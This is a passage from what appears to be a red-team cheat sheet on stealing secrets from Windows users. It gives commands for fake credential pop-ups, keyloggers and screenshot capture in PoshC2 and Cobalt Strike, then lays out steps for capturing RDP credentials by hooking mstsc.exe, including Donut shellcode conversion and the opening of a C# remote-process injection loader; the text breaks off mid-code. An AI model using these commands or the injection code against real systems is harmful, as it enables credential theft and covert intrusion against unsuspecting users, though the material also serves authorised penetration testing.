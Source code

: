 
---
### __Obtain secrets via user interaction:__

#### _Run credential pop\-up:_ 
- Customizable Windows authentication prompt that can verify if the entered credentials are valid on the local system or in the domain \([AskNicely](https://github.com/pietermiske/AskNicely)\): ```AskNicely.exe (/verify) (/title:"<Custom title>" /message:"<Custom message>")```
- Simple popup using BOF that isn’t persistent or checks if creds are valid \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): ```Askcreds (<optional text as window title>)```

#### Keylogger:
- PoshC2: Gives nice output and writes in file \(process can't be terminated\): ```start-keystrokes-writefile```
- Cobalt Strike: Inject a keylogger into a given process \(kill with jobkill <ID>\) (OPSEC: this is using fork&run): ```keylogger (<PID>) (<x86|x64>)```

#### Screenshots:
- PoshC2: \(screenshots are saved in: /var/poshc2/<project>/downloads/\): ```get-screenshot```
- Cobalt Strike: Inject in given process and take screenshot: ```screenshot (<PID>) (<x86|x64>) (<runtime in seconds>)```

#### RDP API Hooking: 
RDP Credentials can be captured by intercepting function calls \(API Hooking\) in mstsc\.exe, the native windows binary that creates connections to Remote Desktop Services\. This tool will look for new instances of mstsc\.exe, inject the RemoteViewing shellcode and save the encrypted credentials into a file\. *
>This technique doesn’t require elevated privileges\. 
- 1\. Download and compile both the [RemoteViewing](https://github.com/FuzzySecurity/Sharp-Suite/tree/master/RemoteViewing) and Clairvoyant tool \(don’t forget to restore the NuGet packages if required\)
- 2\. Convert the created RemoteViewing.exe tool to shellcode using Donut \([Donut](https://github.com/TheWover/donut)\): ```.\donut.exe –f 7 <path to RemoteViewing.exe> -o .\RemoteViewingSC.cs``` 
- 3\. Create a shellcode injection binary and add the generated shellcode \(from RemoteViewingSC\.cs\) in the "SHELLCODE" placeholder\.
    ```Csharp
    using System;
    using System.Runtime.InteropServices;
    using System.Diagnostics;
    using System.Collections.Generic;
    using System.Threading;
    
    class Win32
    {
        [DllImport("kernel32")]
        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, Int32 dwSize, UInt32 flAllocationType, UInt32 flProtect);
        [DllImport("kernel32")]
        public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32")]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] buffer, IntPtr dwSize, int lpNumberOfBytesWritten);
    
